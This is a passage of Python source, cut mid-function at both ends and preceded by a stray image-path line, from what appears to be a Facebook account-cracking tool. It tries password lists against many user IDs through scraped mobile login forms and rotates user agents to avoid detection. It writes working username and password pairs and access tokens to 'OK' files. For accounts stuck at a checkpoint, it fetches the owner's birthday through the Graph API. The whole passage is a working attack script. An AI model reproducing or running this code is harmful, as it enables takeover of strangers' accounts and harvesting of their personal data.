 				sys.stdout.flush()
				sleep(1.5)
				t -= 1
		elif "session_key" in status_masuk.text and "EAAA" in status_masuk.text:
			print("\r  %s* --> %s|%s|%s"%(H,uid, pw, send.json()["access_token"]))
			ok.append("%s|%s"%(uid, pw))
			open("OK/%s.txt"%(tanggal),"a").write("  * --> %s|%s\n"%(uid, pw))
			break
		elif "User must verify their account on www.facebook.com (405)" in status_masuk.text:
			try:
				token=open("token.txt","r").read()
				ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
				month, day, year = ttl.split("/")
				month = bulan[month]
				print("\r  %s* --> %s|%s|%s %s %s"%(K,uid, pw, day, month, year))
				cp.append("%s|%s"%(uid, pw))
				open("CP/%s.txt"%(tanggal),"a").write("  * --> %s|%s|%s %s %s\n"%(uid, pw, day, month, year))
				break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print("\r  %s* --> %s|%s         "%(K,uid, pw))
			cp.append("%s|%s"%(uid, pw))
			open("CP/%s.txt"%(tanggal),"a").write("  * --> %s|%s\n"%(uid, pw))
			break
		else:
			continue

	loop += 1
	
def mfbasic(uid, pwx,url,**data):
	global ok, cp, loop, token
	sys.stdout.write(
		"\r %s[*] [crack] %s/%s OK:-%s - CP:-%s "%(N,loop, len(id), len(ok), len(cp))
	); sys.stdout.flush()
	for pw in pwx:
		pw = pw.lower()
		ua = random.choice([
			'Mozilla/5.0 (Linux; U; Android 4.1.2; de-de; GT-I8190 Build/JZO54K) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30',
			'Mozilla/5.0 (Linux; Android 5.1; A1601 Build/LMY47I) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.98 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 6.0; MYA-L22 Build/HUAWEIMYA-L22) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.84 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 7.0; SAMSUNG SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/7.4 Chrome/59.0.3071.125 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 7.1; vivo 1716 Build/N2G47H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.98 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 9; SAMSUNG SM-G950U) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/10.2 Chrome/71.0.3578.99 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 9; SAMSUNG SM-G960U) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/10.1 Chrome/71.0.3578.99 Mobile Safari/537.36'
		])
		ge=s.get(url+"/login/?next&ref=dbl&refid=8").text
		sop=parser(ge,"html.parser")
		for i in sop.find_all("raw_input"):
			if i.get("name")==None or "_fb_noscript" in i.get("name") or "sign_up" in i.get("name"):continue
			else:data.update({i.get("name"):i.get("value")})
		data.update({"email":uid,"pass":pw})
		log_in=url+sop.find("form",method="post").get("action")
		if "m.facebook.com" in url: